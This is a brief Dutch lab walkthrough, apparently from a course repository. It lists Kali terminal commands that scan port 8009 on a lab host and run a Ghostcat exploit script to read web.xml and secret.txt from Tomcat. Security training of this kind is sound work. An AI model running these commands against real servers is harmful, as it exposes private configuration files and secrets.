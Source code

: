 # 4) Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (Kali VM)

- open terminal in kali vm
- voer volgende commando's uit:
- 4.1) sudo cp /media/sf_kali_exploit_ghostcat.py ~/Desktop/
- 4.2) cd Desktop
- 4.3) sudo chmod +x exploit_ghostcat.py
- 4.4) nmap 10.10.10.4 -p 8009
- 4.5) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.6) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
